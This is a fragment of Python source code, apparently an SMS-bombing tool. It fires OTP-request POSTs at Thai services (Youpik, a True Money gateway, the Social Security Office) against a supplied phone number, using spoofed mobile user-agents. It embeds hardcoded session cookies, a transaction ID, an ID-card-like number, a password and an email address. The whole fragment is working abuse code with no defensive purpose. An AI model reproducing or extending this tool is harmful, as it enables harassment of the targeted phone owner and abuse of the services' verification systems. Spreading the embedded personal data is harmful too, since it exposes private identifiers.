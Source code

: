             print(auth07.status_code)

            print(auth07.json())

        except:

            print("Fail :(")

        try:

            # Youpik

            auth08 = requests.post("https://api.ulive.youpik.com/api-base/sms/sendCode",headers={"authorization": "Basic d2ViQXBwOndlYkFwcA==","content-type": "application/x-www-form-urlencoded;charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"},data=f"phone={phone[1:]}&type=1")

            print(auth08.status_code)

            print(auth08.json())

        except:

            print("Fail :(")

        try:

            # True Money ( รัวได้ )

            auth09 = requests.post("https://pygw.csne.co.th/api/gateway/truewalletRequestOtp",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "pygw_csne_coth=91207b7404b2c71edd9db8c43c6d18c23949f5ea"},data=f"transactionId=b05a66a7e9d0930cbda4d78b351ea6f7&phone={phone}")

            print(auth09.status_code)

            print(auth09.json())

        except:

            print("Fail :(")

        try:

            # SSO

            auth10 = requests.post('https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp',headers = {"User-Agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","X-Requested-With": "XMLHttpRequest","Cookie": "sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"},data=f"dCard=1358231116147&Mobile={phone}&password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=nickytom5879%40gmail.com&otp_type=OTP&otpvalue=&messageId=REGISTER")
